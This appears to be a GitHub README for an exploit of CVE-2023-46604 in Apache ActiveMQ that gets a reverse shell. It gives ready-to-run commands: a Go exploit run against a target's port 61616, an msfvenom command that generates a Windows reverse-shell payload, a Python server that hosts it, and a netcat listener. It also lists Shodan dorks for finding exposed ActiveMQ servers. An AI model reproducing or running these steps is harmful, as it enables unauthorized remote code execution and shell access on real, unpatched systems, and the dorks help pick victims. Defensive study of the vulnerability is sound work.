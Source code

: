 # CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
This exploit builds upon the foundational work available at https://github.com/X1cT34m (https://github.com/X1r0z/ActiveMQ-RCE). We have further developed the technique to achieve a reverse shell utilizing the Metasploit Framework (https://github.com/rapid7/metasploit-framework).

# Usage:
<b>Important: Manually change the IP Address (0.0.0.0 on line 11) in the XML files with the IP Address where the payload will be generated. If u follow the below commands it will be your Listner IP Addess. Also {IP_Of_Hosted_XML_File} will be your Listner IP Address.</b>

For Linux/Unix Targets (Note removed binary from repo. Will run using go)
- Spawn python webserver before running on port of your choosing
- Spawn a netcat listerner on port 9001 before running
```
go run main.go -i <Target> -p 61616 -u http://<lhost>:<port>/poc-linux.xml
```

For Windows Targets
```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell
cd CVE-2023-46604-RCE-Reverse-Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f eXE -o test.exe
python3 -m http.server 8001
./ActiveMQ-RCE -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-windows.xml
```

![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/db1b82e4-55ef-4f23-9df7-8a0cf99c01c4)

# Shodan Dork:
- product:"ActiveMQ OpenWire Transport"
- ![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/6d560881-7855-474b-8c8b-3fb5a3f09a94)
- product:"ActiveMQ OpenWire Transport" port:61616
- ![image](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/assets/66937297/1e073ec0-690e-40b1-bcc0-cb9390ca6b7c)



# Original Work:
- https://github.com/X1r0z/ActiveMQ-RCE

# For More Reading:
- https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/
- https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/
- https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis

A special thanks to https://github.com/Anon4mous for actively supporting me.
